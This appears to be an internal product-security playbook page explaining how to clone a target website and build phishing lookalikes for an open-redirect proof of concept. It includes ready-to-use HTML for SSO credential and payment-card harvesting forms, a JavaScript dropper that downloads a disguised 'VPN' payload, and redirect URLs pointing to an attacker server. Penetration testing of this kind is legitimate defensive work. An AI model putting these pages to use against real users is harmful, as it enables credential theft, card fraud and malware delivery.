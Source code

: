 If you can steal the target website's HTML styling, you can use that styling to build a near-clone of the target website that prompts the user to perform some undesirable action. This can include entering SSO credentials, submitting payment information, or downloading "malware". 

This Impact Technique has three steps:
1. Copy the target website's HTML styling.
2. Build a lookalike page that uses the styling and prompts the visitor to do something undesirable.
3. Host the lookalike page on an external server and redirect the user to the page.

# 1. Copy the target website's HTML styling
You can use the developer console to copy the website's `<html>` element as a string. Depending on how the website's frontend is configured, this might also include all of the frontend's CSS and styling. 

First, pick a webpage on the target webpage you would like to emulate. Right-click on that page in your browser and open the Developer Console. Paste the following JavaScript string into the console:
```javascript
document.getElementsByTagName("html")[0]
```


Right-click on the output and select "Copy" > "Copy outerHTML":
![[Pasted image 20240207120826.png|1000]]

Paste this output into a new `.html` file. If you load the file in your browser, it should look identical to the target webpage. If your `.html` file does look identical to the target webpage, you can proceed to **2. Build a lookalike page**.

If, however, your file looks something akin to the following when you load it:
![[Pasted image 20240207121607.png|1000]]

...this means the styling resources are not properly loading. There are a few reasons this might happen:
1. The frontend uses relative URLs (`/style.css`) instead of absolute URLs (`https://target-website.com/style.css`). 
2. The frontend loads resources from external sources in filetypes that are not allowed [per the Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy#cross-origin_network_access).

Problem number 1 is fixable. Look through the HTML you copied. If you spot a bunch of relative URLs, try some grep-and-replace magic to see if that helps (e.g., replace all `="/` with `="https://target-website.com/`). It might take a few tries and some manual correction, but you should be able to get it working. 

If you still cannot get your fake page to look like the original, check the Network and Console tabs in the browser. If you see many CORS errors, you are likely encountering problem number 2. Unfortunately, this means you cannot load the website's styling from an external website due to the Same Origin Policy. Move on to the default impact, [[Build Generic Phishing Page]]. 

If you do not see either relative URLs nor CORS errors, then your web page is failing to load resources for some other reason. Looking in the Network tab might give a hint. However, don't spend too long here. It is not worth multiple hours of your time. If you cannot create a convincing clone of the webpage after an hour or two, move to [[Build Generic Phishing Page]].


# 2. Build a lookalike page
Tweak the inner HTML of your cloned `.html` file to add something that prompts the user into performing some undesirable action. You can paste one of the following examples below into your HTML file. The HTML blob should render with the target web page's styling and look fairly convincing:

## SSO Login Form
```html
<form action="/credentials" method="post">
  <div class="container">
    <p><img src="COMPANY-LOGO.png" alt="Avatar" class="avatar" width="50px">Please enter your SSO credentials below:</p>
    <label for="uname"><b>Username</b></label>
    <input type="text" placeholder="Enter Username" name="uname" required>

    <label for="psw"><b>Password</b></label>
    <input type="password" placeholder="Enter Password" name="psw" required>

    <button type="submit">Login</button>
  </div>
</form>
```
- Find an image file of your target website's logo. Save this file to same folder as your `.html` clone.
- Replace `COMPANY-LOGO.png` with the name of this file.
- Tweak manually as necessary.
- This form will send any submitted credentials to the `/credentials` endpoint on your server.

## Malware Prompt
```html
<button onclick="downloadPayload()">
    Download VPN
</button>
<script>
    function base64ToArrayBuffer(base64) {
       var binary_string = window.atob(base64);
       var len = binary_string.length;
       var bytes = new Uint8Array( len );
       for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
       return bytes.buffer;
    }
 
    function downloadPayload() {
        var file = 'BASE-64-PAYLOAD';
        var data = base64ToArrayBuffer(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'vpn';
        
        var a = document.createElement('a');
        document.body.appendChild(a);
        a.style = 'display: none';
        var url = window.URL.createObjectURL(blob);
        a.href = url;
        a.download = fileName
        a.click();
        window.URL.revokeObjectURL(url);
    }
 </script>
```
- Write a stand-in "malware" C program. This can be as simple as a "Hello World" executable.
- Compile your program: `gcc malware.c -o malware`
- Convert your program into a base64 string and copy the string to your clipboard: `cat vpn | base64 | pbcopy`
	- Paste the string into `BASE-64-PAYLOAD` above.
	- Alternatively, you could host the `malware` file as a separate file on the server, but the method above keeps everything in one file.
- When your user clicks the button, it will download the file. 

## Payment/Checkout Form
```html
<div class="payment-title">
    <h1>Payment Information</h1>
    <form action="/payment" method="post">
        <div class="container">
          <p>Please enter your payment information to check out.</p>
          <label for="name"><b>Cardholder Name</b></label>
          <input type="text" name="name" required>
      
          <label for="cardnum"><b>Card Number</b></label>
          <input type="password" name="cardnum" required>
      
          <label for="expiration"><b>Expiration (mm/yy)</b></label>
          <input type="text" name="expiration" required>
      
          <label for="securitycode"><b>Security Code</b></label>
          <input type="password" name="securitycode" required>
      
          <button type="submit">Checkout</button>
        </div>
      </form>
</div>
```
- This will send the user's payment information to the `/payment` endpoint of your server.
- Tweak as needed.
- You might also consider something more involved, like this: https://cdpn.io/quinlo/fullpage/YONMEa?anon=true&view=

# 3. Host the lookalike page on an external server
You need to host your cloned and tweaked `.html` file somewhere. 

For the purposes of a ProdSec PoC, localhost will usually work:
```
cd <folder-containing-html-file>
python -m http.server 8000
```
- Use localhost if you do not have a specific reason to host your file externally. It is better to keep everything off the internet unless needed.
- Your malicious URL would then look something like: `https://target-website.com/insecure-redirect?next=https://localhost:8000/phishing.html`



If you wish to host your file on an external server, you can use the following Flask server in [[Session Token Exfiltration#Flask Server (Automated)]] as a starting point. Note that Flask automatically creates a `/static/<filename>` route that will serve any `filename` file in the `/static` directory. You can place your `.html` file here. 

Your malicious URL would look something akin to:
```
https://target-website.com/insecure-redirect?next=https://external-server-IP/phising.html
```